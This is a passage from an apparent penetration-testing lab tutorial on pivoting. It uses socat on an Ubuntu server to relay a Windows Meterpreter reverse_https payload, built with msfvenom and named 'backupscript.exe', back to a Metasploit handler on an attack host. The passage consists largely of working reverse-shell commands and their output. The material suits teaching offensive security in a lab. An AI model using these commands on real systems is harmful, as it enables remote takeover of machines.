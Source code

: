 [Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. We can start Metasploit's listener using the same command mentioned in the last section on our attack host, and we can start `socat` on the Ubuntu server.

#### Starting Socat Listener

    ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
    

Socat will listen on localhost on port `8080` and forward all the traffic to port `80` on our attack host (10.10.14.18). Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server. We will also start a listener on our attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to our attack host's listener, where we would be getting a shell.

#### Creating the Windows Payload

    matmarqx@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
    
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 743 bytes
    Final size of exe file: 7168 bytes
    Saved as: backupscript.exe
    

Keep in mind that we must transfer this payload to the Windows host. We can use some of the same techniques used in previous sections to do so.

#### Starting MSF Console

    matmarqx@htb[/htb]$ sudo msfconsole
    
    <SNIP>
    

#### Configuring & Starting the multi/handler

    msf6 > use exploit/multi/handler
    
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
    payload => windows/x64/meterpreter/reverse_https
    msf6 exploit(multi/handler) > set lhost 0.0.0.0
    lhost => 0.0.0.0
    msf6 exploit(multi/handler) > set lport 80
    lport => 80
    msf6 exploit(multi/handler) > run
    
    [*] Started HTTPS reverse handler on https://0.0.0.0:80
    

We can test this by running our payload on the windows host again, and we should see a network connection from the Ubuntu server this time.
